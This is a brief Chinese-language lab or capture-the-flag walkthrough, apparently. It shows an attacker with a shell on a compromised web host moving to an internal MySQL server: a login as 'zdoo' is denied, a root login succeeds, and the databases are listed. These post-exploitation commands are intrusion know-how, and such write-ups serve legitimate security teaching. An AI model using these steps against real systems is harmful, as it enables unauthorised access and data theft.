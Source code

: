 ![img](img/image_20240754-155459.png)

根据数据库用户 `zdoo` 可以联想到 `http://172.22.15.24/` 的 ZDOO 网站服务

尝试使用 `zdoo` 在 ` 入口点 172.22.15.26` 上连接数据库，提示无权限

```shell
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u zdoo -p
Enter password:
ERROR 1045 (28000): Access denied for user 'zdoo'@'172.22.15.26' (using password: YES)
```

尝试使用 `root` 用户登录，成功访问

```shell
(remote) www-data@ubuntu-web:/tmp$ mysql -h 172.22.15.24 -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 25
Server version: 5.7.26 MySQL Community Server (GPL)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| zdoo               |
+--------------------+
```